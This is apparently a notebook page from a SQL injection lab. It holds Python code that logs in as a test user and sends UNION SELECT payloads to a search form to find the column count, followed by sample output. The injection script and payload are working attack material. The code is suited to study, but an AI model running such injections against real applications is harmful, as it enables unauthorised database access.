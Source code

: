 ```python

# Check if login was successful by looking for a specific element or text in the login_response
if 'Welcome bob' in login_response.text:
    print("Successfully logged in as bob")

    # Iterate over payloads to find the correct number of columns
    for payload in payloads:
        # Data to be sent in the POST request
        search_data = {
            'searchitem': payload
        }

        # Send the POST request to search
        response = session.post(search_url, data=search_data)

        # Parse the HTML response
        soup = BeautifulSoup(response.text, 'html.parser')

        # Check for error message
        error_message = soup.find(text="The used SELECT statements have a different number of columns")

        # Extract the specific table's content
        result_div = soup.find('div', class_='searchheader')
        if result_div and not error_message:
            result_table = result_div.find_next('table')
            if result_table:
                print(f"Payload: {payload}")
                print("Correct number of columns found. Extracted table:")
                print("Result table:")

                display(HTML(result_table.prettify()))
            else:
                print(f"No table found for payload: {payload}")
        else:
            print(f"Payload: {payload}")
            print("The used SELECT statements have a different number of columns")
            print("Result table:")
            display(HTML(result_table.prettify()))

        
        print("\n" + "-" * 150 + "\n")
else:
    print("Login failed")

```

    Successfully logged in as bob
    Payload: 1' UNION SELECT NULL -- 
    The used SELECT statements have a different number of columns
    Result table:
